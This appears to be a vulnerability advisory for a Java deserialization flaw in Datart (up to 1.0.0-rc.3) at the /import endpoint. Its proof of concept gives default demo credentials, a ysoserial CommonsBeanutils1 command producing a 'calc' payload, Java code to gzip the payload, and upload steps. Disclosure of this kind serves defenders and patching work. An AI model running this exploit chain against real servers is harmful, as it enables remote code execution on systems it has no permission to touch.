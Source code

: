 ## Title: deserialization Vulnerability in Datart  ≤ 1.0.0-rc.3

**BUG_Author:** gggggggga

**Affected Version:** Datart  ≤ 1.0.0-rc.3

**Vendor:** [Datart GitHub Repository](https://github.com/piqi233/cves)

**Software:** [Datart](https://github.com/running-elephant/datart/)

**Vulnerability Files:**

- `datart.server.service.impl.VizServiceImpl`

## Description:

1. **Deserialization Vulnerability via File Parameter:**

   - In the method `extractModel(MultipartFile file)` located in the service class, the file parameter is directly deserialized without proper validation or sanitization.
   - The method uses `ObjectInputStream` to deserialize the contents of the file, which can be controlled by an attacker. This allows an attacker to send a maliciously crafted file that, when deserialized, can execute arbitrary code on the server (leading to Remote Code Execution).
   - The vulnerability is exposed via the route `POST /import` in the `importViz` method, where the `file` parameter is passed to the `extractModel` method for processing.

2. **Exploiting the Deserialization Vulnerability:**

   - An attacker can exploit this vulnerability by uploading a specially crafted file (e.g., a serialized object) that, when deserialized, triggers the execution of malicious code.
   - The malicious file could potentially allow an attacker to execute arbitrary code, leading to Remote Code Execution (RCE) on the server.

3. **Exploit Steps:**

   **Step 1: Login**
   The attacker must first authenticate by logging in through the application’s login endpoint. For example:

   ```
   POST http://<target-ip>/login
   Username: demo
   Password: 123456
   ```

   **Step 2: Upload the Malicious File**
   Once logged in, the attacker can upload a malicious file to the `/import` endpoint, which is processed by the `importViz` method. The uploaded file is then passed to the `extractModel` method for deserialization:

   ```
   POST http://<target-ip>/import
   Content-Type: multipart/form-data
   File: [malicious file containing a serialized object]
   ```

4. **Example Malicious File:**

   The malicious file should contain a serialized object designed to exploit the deserialization vulnerability, triggering remote code execution when processed by the server.

5. **Verifying the Exploit:**

   If the deserialization is successful and the malicious file is processed, the attacker may gain control over the server and execute arbitrary code, leading to Remote Code Execution (RCE).

## Proof of Concept:

1. Access the login page of the vulnerable application:
   ```
   http://localhost:8080/login
   ```

2. Use the following credentials to attempt login:
   ```
   Username: demo
   Password: 123456
   ```

3. Use ysoserial to generate malicious serialized data:

   ```
   java -jar ysoserial.jar CommonsBeanutils1 "calc" > payload.ser
   ```

4. Use the following script to package `payload.ser` into a `payload.ser.gz` file,This Java code reads the `payload.ser` file from the specified path (`E:\\xxx\\payload.ser`), compresses it using GZIP, and writes the output to `payload.ser.gz`.:

   ```
   public class abc {
       public static void main(String[] args) throws IOException {
           try (FileInputStream fis = new 		   FileInputStream("C:\\xxx\\payload.ser");
                FileOutputStream fos = new FileOutputStream("payload.ser.gz");
                GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {
               byte[] buffer = new byte[1024];
               int len;
               while ((len = fis.read(buffer)) > 0) {
                   gzipOut.write(buffer, 0, len);
               }
           }
       }
   }
   
   ```

5. upload the evil file payload.ser.gz

![image-20241216231621478](./assets/image-20241216231621478-1734362191375-1.png)

Successfully executed the `calc` command, which opens the calculator.

![image-20241216231758863](./assets/image-20241216231758863.png)

